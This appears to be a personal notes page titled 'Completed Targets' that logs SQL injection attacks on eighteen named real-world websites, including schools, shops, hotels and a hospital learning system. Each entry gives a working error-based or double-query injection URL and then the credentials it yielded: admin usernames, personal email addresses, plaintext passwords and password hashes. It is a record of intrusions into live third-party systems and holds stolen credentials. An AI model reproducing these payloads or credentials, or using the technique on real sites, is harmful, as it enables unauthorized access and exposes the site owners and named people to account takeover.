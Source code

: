 # <mark style="background: #FF5582A6;">Prerequisite :</mark> 

Knowing How To Work With Burp Suite 
[[12-Xpath Injection]]
[[13-Double Query]]

# <mark style="background: #FFB86CA6;">Completed Targets : </mark> 

1. https://www.maapet.com/gallery-list.php?id=-15%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(password)%20from%20admin_login%20limit%200,1)))--+

	username : YWRtaW4=
	password : YWRtaW4=

2. http://hiriketiyabeach.lk/room-view.php?id=1%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(username)%20from%20user%20limit%200,1)))--

	username : hiriketiyabeach
	password 1 : 601433d72242a66e0f149accba46
	password 2 :             d72242a66e0f149accba46737b
	final password : 601433d72242a66e0f149accba46737b

3. http://firoozgar.behkima.ir/lms/view.php?id=22590%27%20and%20updatexml(null,concat(0x3a,(select%20concat(user_email)%20from%20ap_users%20limit%200,1)),null)--+

	user_email : arash.zolfagharinia@gmail.com
	user_password 1 : $2a$08$mGJsSmkUHjflguLP5uWijOPX
	user_password 2 :     a$08$mGJsSmkUHjflguLP5uWijOPXv6e
	final password : $2a$08$mGJsSmkUHjflguLP5uWijOPXv6e

4. https://www.pharmacongignos.in/product.php?id=9%20&%20cat_id=%203%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(admin_name)%20from%20administrators%20limit%200,1)))--+

	username : pharmalogin@123
	password 1 : 0d529000f68996e4adc14845822e...
	password 2 :   d529000f68996e4adc14845822ef0af
	final password : 0d529000f68996e4adc14845822ef0af

5. https://www.pbw-india.com/category.php?id=2%20and%20/*!12345extractvalue(rand(),CONCAT(0x7e,(select%20CONCAT(user_email)%20from/**/user_info%20limit%200,1)))*/--

	useremail : patelbrass@pbw-india.com
	password : pbw@admin123#

6. https://www.jasmineexports.com/category.php?catid=2%20and%20extractvalue(rand(),concat(0x7e,(select%20column_name%20from%20information_schema.columns%20where%20table_name=%27tbladmin%27%20limit%202,1)))--

	(it didin't have a column for the name of the user, but it had the loginid column)

	loginid : admin
	password : ganesh@6688*

7. https://www.htps.edu.hk/en/school.php?id=19%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(usr_name)%20from%20usr%20limit%200,1)))--+

	username : Administrator
	password 1 : 7b6e38268b9d17545ecab0995c6238e
	password 2 :   b6e38268b9d17545ecab0995c6238eb8
	
	(with [[12-Xpath Injection]], the password isn't complete) ---> [[13-Double Query]]

	final password (with double) : 7b6e38268b9d17545ecab0995c6238eb8f61cfd3

	- (https://www.htps.edu.hk/en/school.php?id=19%27%20and%20(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(usr_pwd)%20as%20char),0x7e))%20from%20holytrinity.usr%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--+)

8. https://www.lkh.com.sg/news.php?id=3%20and%20updatexml(null,concat(0x3a,(select%20concat(user_name)%20from%20user%20limit%200,1)),null)--

	user_name : lkhcomsg_admin
	user_password 1 : ef72c7414ce60334e34f8bc6706e540
	user_password 2 : 

	(when we delete the 0x3a to show the password as complete, the site loaded without any error and it doesn't have [[13-Double Query]])

9. https://acebaypointe.com/post.php?id=28%20and%20/*!12345extractvalue(rand(),CONCAT(0x7e,(select%20CONCAT(username)%20from/**/tbl_user%20limit%200,1)))*/--

	username : admin
	password 1 : 748a75a6efc25e40221d40e4eabf0e3
	password 2 :       a75a6efc25e40221d40e4eabf0e3c
	final password : 748a75a6efc25e40221d40e4eabf0e3c

10. http://sinchung.com.my/tour.php?id=26%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(username)%20from%20control_login%20limit%200,1)))--+

	username : admin
	password 1 : 5f4dcc3b5aa765d61d8327deb882cf9
	password 2 :   f4dcc3b5aa765d61d8327deb882cf99
	final password : 5f4dcc3b5aa765d61d8327deb882cf99

11. http://www.saleemcarpets.com/prod_detail.php?ID=10%27%20and%20/*!12345extractvalue(rand(),CONCAT(0x7e,(select%20CONCAT(username)%20from/**/user%20limit%200,1)))*/--+

	username : adminme
	password 1 : b7feb6077ec63d8caa449362b23d246
	password 2 :

	<mark style="background: #FF5582A6;">Point :</mark> 
	when we delete the 0x7e to show the password as complete, the site loaded without any error)
	(it doesn't have [[13-Double Query]], only the combined way with
	[[2-Sql Injection (Basic)]] may work, in this way, we have found the name of the important table and the important columns, so we extract the information we want as follow :
	- <mark style="background: #FFB86CA6;">union select 1,2,3,4,5,password,7,8,9 from admin--</mark> 

12. http://stpbusiness.st/single.php?id_p=30%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(email)%20from%20usuario%20limit%200,1)))--+

	email : odinilsongomes4@gmail.com
	password 1 : adcd7048512e64b48da55b027577886
	password 2 :
	
	(when we delete the 0x7e to show the password as complete, the site loaded without any error) ---> [[13-Double Query]]

	final password (with double) : adcd7048512e64b48da55b027577886ee5a36350

	- http://stpbusiness.st/single.php?id_p=30%27%20and%20(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(senha)%20as%20char),0x7e))%20from%20stpbusiness.usuario%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--+

13. https://www.satoribike.com/pro.php?m=d&pid=80&cid=15&f=14%27%20and%20/*!12345extractvalue(rand(),CONCAT(0x7e,(select%20CONCAT(username)%20from/**/managers_eng%20limit%200,1)))*/--+

	username : root
	password : satori4390

14. http://artworkshop.co.uk/newsdetail.php?NewsID=160%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(Email)%20from%20members%20limit%200,1)))--

	email : bigmetalfish@gmail.com
	password 1 : e1a812d25dc400cff7b81cccd9ae...
	password 2 :

	(when we delete the 0x7e to show the password as complete, the site loaded without any error) ---> [[13-Double Query]]

	final password (with double) : e1a812d25dc400cff7b81cccd9aedebf45a84eda

	- http://artworkshop.co.uk/newsdetail.php?NewsID=160%20and%20(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(password)%20as%20char),0x7e))%20from%20kdyrsxni_db1.members%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--

15. https://www.promare.be/shop.php?id=1%27%20and%20updatexml(null,concat(0x3a,(select%20concat(password)%20from%20%20tbl_login%20limit%200,1)),null)--+

	username : Pr0mare
	password 1 : 3caf205e08fdd567596f664bf5a587e
	password 2 :   caf205e08fdd567596f664bf5a587e8
	final password : 3caf205e08fdd567596f664bf5a587e8

16. http://www.embryohotel.com/room-detail.php?id=1%20And(select%201%20from(select%20count(*),concat(0x3a,(select%20substr(group_concat(username,0x3a,password),1,150)%20from%20admin%20where%20table_schema%20like%20database()),0x3a,floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)z)--%20-
	
	username : admin
	password 1 (with double) : e742c63f03ab602f2b38433ffc28b5145ba1332d

17. http://www.altcine.com/movie.php?id=-1940%27and%20(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(password)%20as%20char),0x7e))%20from%20altcine_mems.users%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--+

	email : webmaster@altcine.com
	password (with double) : a978acc8a7ae15f49f58f3495f0d85ba

18. http://www.marywardlubhu.edu.np/school.php?id=168&cat_id=23%27%20and%20extractvalue(rand(),concat((select%20concat(username)%20from%20tbl_admin%20limit%200,1)))--+

	username : #&*5$#ExQ!-+
	password 1 : 20e041a68eefa994cc7dd29bc2235dc
	password 2 :     e041a68eefa994cc7dd29bc2235dc0
	final password : 20e041a68eefa994cc7dd29bc2235dc0
	